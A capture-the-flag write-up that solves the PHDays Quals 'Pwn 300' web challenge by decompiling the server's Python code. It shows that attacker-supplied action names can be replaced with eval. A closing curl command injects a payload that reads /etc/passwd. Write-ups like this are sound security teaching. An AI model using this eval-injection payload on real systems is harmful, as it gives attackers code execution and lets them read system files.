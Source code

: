 # PHDays Quals Pwn 300

PWN 300 is a 'south park administration' website.

It only has a form:

* Select between {Kenny, Stan, Kyle, Eric, Butters, Token}
* Radio buttons for {Kill, Arrest, Bankrupt}
* Submit button

Click submit, and it'll return a message like `Kenny was killed`,
depending on the input.

The html source code provides a comment, stating that **the flag is inside
of /etc/passwd**. We are also given the source code for the website.

**web.py** is a python twisted web server.
By default, it serves the main web page, which is hard coded as a
string. For POST requests, it passes the arguments from the request to a
function from the other file.

**process.pyc** is compiled python that web.py makes use of.

We decompile process.pyc to get process.py. Thanks [unpyc](http://code.google.com/p/unpyc/). There is one issue with the decompiled code. A line inside of the 'create_function' function in process.py reads: 

    consts = ((None,) + (human))

Which doesn't work. Change it so that it does what it probably was meant
to do.

    consts = tuple([None, human])

Now it is possible to run web.py locally and have the same output as the
online version.

**process.py** provides a function that dynamically builds up another
function. What it does:

* Builds up an list of information needed for a python code object.
* Passes the list into types.codeType to generate a python code object.
* Passes the python code object into types.FunctionType to create a function.
* Calls the resultant function and passes the output string back to
  web.py.

It turns out that we don't actually need to understand how python code
objects work to exploit this.

Here is the bottom of process.py, which is all that we actually need to
exploit this.

    def kill(name):
        return ('%s was killed' % name)

    def arrest(name):
        return ('%s was arrested' % name)

    def bankrupt(name):
        return ('%s was bankrupted' % name)

    def process(args):
        actions = tuple(args['actions'])
        choice = args['choice'][0]
        human = args['human'][0]
        return create_function('myfunc', 0, choice, actions, human)()

When printed, args looks like this (depends on what the web client passes in):

    {'actions': ['kill', 'arrest', 'bankrupt'], 'human': ['Kenny'], 'choice': ['\x00']} 

Based on the value inside of 'choice', process.py will choose one of the
options inside of 'actions', which correspond to function names to use
in the dynamically generated function. The first value inside of 'human'
gets passed in as an argument. We can replace one of the functions with
eval. We want args to look like:

    {'actions': ['eval', 'arrest', 'bankrupt'], 'human': ['str(open("/etc/passwd"))'], 'choice': ['\x00']}

Construct a request to send in these parameters:

    $ curl -d "actions=eval&actions=arrest&human=str(open(\"/etc/passwd\").read())&choice=%00" http://ctf.phdays.com:2137

And it dumps /etc/passwd, which contains the flag in plaintext.
